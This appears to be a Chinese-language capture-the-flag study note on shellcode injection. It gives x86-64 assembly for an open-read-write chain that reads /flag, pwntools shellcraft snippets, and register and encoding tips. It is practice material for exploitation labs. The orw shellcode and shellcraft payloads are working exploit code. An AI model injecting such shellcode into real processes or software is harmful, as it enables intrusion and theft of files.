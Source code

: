 ```yaml
---
title: "Shellcode Injection"
date: 2024-11-02
---
```

# 目录
> Tips：可以使用 IDA 任意找一个 ELF 文件，通过修改指令来进行测试具体指令的 hex 字符

```
print(disasm(shellcode)) # 可以查看shellcode的字节码和汇编

把mov rdi,rcx改为mov edi,ecx，在给edi赋值时会将高32位全部设为0

context.terminal=['tmux','splitw','-h']  # 指定运行终端

0x3024           # 0$
0x68732f6e69622f			#  hs/nib/
0x67616C662F   # galf/

参数寄存器顺序：rdi,rsi,rdx,r10,r9,r8......
```
# level 1 execve 或 orw 
## orw
> 参见sandboxing部分shellcode编写

```python
xor rax, rax   #xor rax,rax是对rax的清零运算操作
xor rdi, rdi   #清空rdi寄存器的值
xor rsi, rsi   #清空rsi寄存器的值
xor rdx, rdx
mov rax, 2      #open调用号为2
mov rdi, 0x67616c662f #为galf/为/flag的相反  
#      0x67616c662f2f为/flag的ASCII码的十六进制
push rdi
mov rdi, rsp
syscall  

mov rdx, 0x100   #sys_read(3,file,0x100)
mov rsi, rdi
mov rdi, rax
mov rax, 0      #read调用号为0 ;           文件描述符0则表示 标准输入即外部输入，例如键盘
syscall

mov rdx,0x30
mov rdi, 1      #sys_write(1,file,0x30)
mov rax, 1      #write调用号为1;         文件描述符1表示标准输出，指的是屏幕
syscall
```
```python
# 下面这个没成功
shell = shellcraft.open("/flag")
shell += shellcraft.read(0,elf.bss()+0x100,1024)
shell += shellcraft.write(1,elf.bss()+0x100,1024)

# 这个可以
shellcode =  asm(shellcraft.readfile("/flag", 1))
shellcode = shellcraft.cat("/flag")  # 借鉴一下
# 实质是调用了open，sendfile，参见末尾链接查看shellcreaf手册
```